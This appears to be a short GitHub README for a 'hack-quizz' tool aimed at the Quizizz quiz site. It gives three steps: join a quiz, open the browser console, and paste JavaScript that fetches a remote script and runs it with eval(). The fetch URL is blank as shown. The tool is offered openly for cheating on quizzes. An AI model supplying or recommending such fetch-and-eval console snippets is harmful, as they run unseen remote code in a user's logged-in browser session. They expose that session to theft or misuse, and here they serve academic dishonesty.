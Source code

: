 # hack-quizz

Step 1: start your quizz in https://quizizz.com/join/

Step 2: open console tab [Ctrl+Shift+J]

Step 3: paste this code
```javascript
// Start the magic
    fetch("")
        .then((res) => res.text()
        .then((t) => eval(t)))
```

